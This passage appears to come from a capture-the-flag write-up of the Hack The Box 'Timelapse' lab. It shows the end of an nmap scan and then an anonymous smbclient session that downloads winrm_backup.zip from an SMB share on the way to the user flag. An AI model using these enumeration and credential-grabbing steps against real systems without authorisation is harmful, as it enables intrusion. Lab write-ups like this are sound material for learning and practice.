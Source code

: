 ```bash
|   Check 2 (port 64540/tcp): CLEAN (Timeout)
|   Check 3 (port 22941/udp): CLEAN (Timeout)
|   Check 4 (port 12702/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 8h00m01s, deviation: 0s, median: 8h00m01s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

# Nmap done at Sat Jul 22 12:46:49 2023 -- 1 IP address (1 host up) scanned in 194.26 seconds
```


# User Flag
---

## Get `winrm_backup.zip` from smb share

Get winrm backup file from smb share

```bash
┌──(kali㉿kali)-[~/htb/Timelapse]
└─$ smbclient //timelapse.htb/Shares -U "a%"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 23:39:15 2021
  ..                                  D        0  Mon Oct 25 23:39:15 2021
  Dev                                 D        0  Tue Oct 26 03:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 23:48:42 2021

                6367231 blocks of size 4096. 2448497 blocks available
smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Tue Oct 26 03:40:06 2021
  ..                                  D        0  Tue Oct 26 03:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 23:46:42 2021

                6367231 blocks of size 4096. 2448497 blocks available
smb: \Dev\> get winrm_backup.zip
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (11.1 KiloBytes/sec) (average 11.1 KiloBytes/sec)
smb: \Dev\> exit
```


## Get winrm keys
